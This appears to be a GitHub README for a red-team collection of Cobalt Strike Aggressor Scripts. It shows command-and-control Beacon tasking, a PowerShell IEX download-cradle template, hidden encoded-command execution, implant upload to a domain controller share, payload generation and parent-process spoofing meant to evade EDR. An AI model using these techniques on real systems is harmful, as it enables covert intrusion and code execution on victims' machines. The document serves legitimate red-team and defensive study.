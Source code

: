 ## cobalt-arsenal

My published set of Aggressor Scripts for Cobalt Strike 4.0+

- **`Beacon_Initial_Tasks.cna`** - This script lets you configure **commands that should be launched as soon as the Beacon checks-in for the first time**. Both commands and argue settings are available in a dedicated options dialog. Also, a feature to right-click on a Beacon and issue "Run custom command..." was added to allow to run arbitrary commands against multiple beacons. Settings are then save in file specified in a global variable named:
     `$beaconInitialTasksSettingsFile`

   *How it works?*

   Implementation of `beacon_task()` functionality to invoke nearly-arbitrary Cobalt Strike commands
   from a passed string, from within your Aggressor scripts:
         ```
         beacon_task($bid, "execute-assembly C:\\tools\\Rubeus.exe hash /password:test");
         ```

- **`better-upload.cna`** - Simple yet **super handy** script that overrides built-in `upload` command by having one that offers additional, second parameter - being _remote file path_. By default we're only able to upload file to the CWD. This implementation let's us upload wherever we like:

```
beacon> upload implant.exe \\DC1\c$\windows\temp\implant.exe
[*] Tasked Beacon to upload file (size: 929.25KB) from: (implant.exe) to: (\\DC1\c$\windows\temp\implant.exe)
[+] host called home, sent: 951655 bytes

```

- **`cwd-in-beacon-status-bar.cna`** - Simple Beacon console status bar enhancement showing Beacon's last known current working directory path, as well as adding fixed-width to last-seen meter. Additionally, this script enhances `cd` command to make it restore previous path if `cd -` was issued (and previous path is known).

- **`custom-powershell-hooks.cna`** - This script introduces several different methods for Powershell download and execution primitives, other than Cobalt Strike's default `(Net.WebClient).DownloadString` and `IEX()`:
```
		set POWERSHELL_DOWNLOAD_CRADLE {
			return "IEX (New-Object Net.Webclient).DownloadString(' $+ $1 $+ ')";
		}
		[...]

		set POWERSHELL_COMMAND {
		[...]
			return "powershell -nop -w hidden -encodedcommand $script";
		}
```

Aforementioned methods are heavily flagged these days by EDRs and AVs so we would prefer to avoid their use. It so happens that Cobalt Strike by default embeds them excessively, generating lot of noise in such systems. We can tell Cobalt Strike to structure it's Powershell use patterns differently. However, some of introduced custom methods may not work. In such situations, we can always switch back to battle tested Cobalt Strike defaults by setting `$USE_UNSAFE_ENCODEDCOMMAND_AND_IEX = 2;` in the script's header.

- **`FilesColor.cna`** - Color Coded Files Listing. Similar to `ProcessColor.cna` by [@r3dQu1nn](https://github.com/harleyQu1nn/AggressorScripts) this script colorizes file listing outputs based on file type and extension. **It also tries to keep track of uploaded files to have them highlighted in files listing as well**. The Colors scheme information will be showed only three times by default, unless configured otherwise via global variable named `$TIMES_TO_DISPLAY_COLORS_SCHEME`.

![FilesColor example](https://raw.githubusercontent.com/mgeeky/cobalt-arsenal/master/img/1.PNG)

- **`Forwarded_Ports.cna`** - Keeps track of configured remote port forwardings on all Beacons and lets kill them easily. Available in `View -> Remote Forwarded Ports`

   Using `rportfwd` here and there quickly consumes pool of available local ports from which to forward traffic outbound and keeping track of them manually becomes tedious on a long-haul projects. This script aims to fill that gap by collecting these commands and presenting them in a nice visualization pane (concept & implementation based on previous work of @ramen0x3f [leave_no_trace](https://github.com/ramen0x3f/AggressorScripts/blob/master/leave_no_trace.cna), @001SPARTaN and @r3dqu1nn [logvis.cna](https://github.com/invokethreatguy/AggressorCollection/blob/master/harleyQu1nn/logvis.cna) ).

- **`Highlight_Beacons.cna`** - Highlights Beacons for a specified time duration (`$HIGHLIGHT_DURATION`) on Initial check-in event, when exiting (and after Beacon exited) and after each Beacon command's output. Configurable colors and events found in `%HIGHLIGHTS` dictionary. Hint: Specify `output => ""` to disable highlighting new Beacon command outputs.

- **`httprequest.cna`** - Safe & sound HTTP request implementation for Cobalt Strike 4.0 Aggressor Script. Works with HTTP & HTTPS, GET/POST/etc. + redirections. Rationale: I've tested various implementations of HTTP request sending subroutines written in Sleep for CS, but none of them matched by needs - working support for GET/POST, redirections handling and exceptions-safe execution. So I came up with my own implementation. ([gist](https://gist.github.com/mgeeky/2d7f8c2a6ffbfd23301e1e2de0312087)) 

- **`Payload_Variants_Generator.cna`** - This script generates stageless payload variants per each available architecture and output format type. Compatible with Cobalt Strike 4.0+.

- **`parse-error-codes.cna`** - A handy script that parses reported error codes and prints their corresponding Windows related meaning directly in Beacon's console output.

  **From:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3
  ```

  **To:**
  ```
  beacon> ls C:\gdgsdfgdf
  [-] could not open C:\gdgsdfgdf\*: 3. Parsed error code:
      3 - ERROR_PATH_NOT_FOUND
  ```

- **`rename-beacon-tabs.cna`** - Script that lets us rename Beacon-related tabs from a default format of: `Beacon <ip>@<pid>` to anything other we like, for instance: `B: <user>@<computer> (<pid>)`. 

   Format deciding how should each Beacon's tab be named, utilising beacon's metadata fields is described in a global variable named $beacon_tab_name_format . That variable may contain any of the following available beacon's metadata keys (CobaltStrike 4.2):

   `note, charset, internal , alive, session, listener, pid, lastf, computer, host, 
   is64, id, process, ver, last, os, barch, phint, external, port, build, pbid, arch, 
   user, _accent`


- **`settings.cna`** - Script that offers sample implementation for `saveOptions` and `loadOptions` routines, intended to store & restore settings from an external file.

- **`smart-autoppid.cna`** - Autoppid - script that smartely invokes PPID for every new checkin in Beacon. PPID command requires invoked Beacon to have the same Integrity level as the process it want's to assume as it's Parent. That's due to how InitializeProcThreadAttributeList with PROC_THREAD_ATTRIBUTE_PARENT_PROCESS works. In order to avoid harcoded explorer.exe PID assumption, we can look around for a configurable process name and then try to find that process running on the highest available for us integrity level. In that case, unprivileged user would assume PPID of for instance svchost.exe running as that user, wherease the privileged one - could go for the svchost.exe running as NT AUTHORITY\SYSTEM. We aim to smartely pick the most advantageous target, in a dynamic fashion.

The same command is also exposed as an alias:

```
beacon> autoppid
[*] Tasked Beacon to find svchost.exe running as SYSTEM and make it the PPID.
[.] host called home, sent: 12 bytes
Future post-ex jobs will be spawned with fake PPID set to:
	svchost.exe	604	700	x64	NT AUTHORITY\SYSTEM	0

[*] Tasked beacon to spoof 700 as parent process
[.] host called home, sent: 12 bytes
```

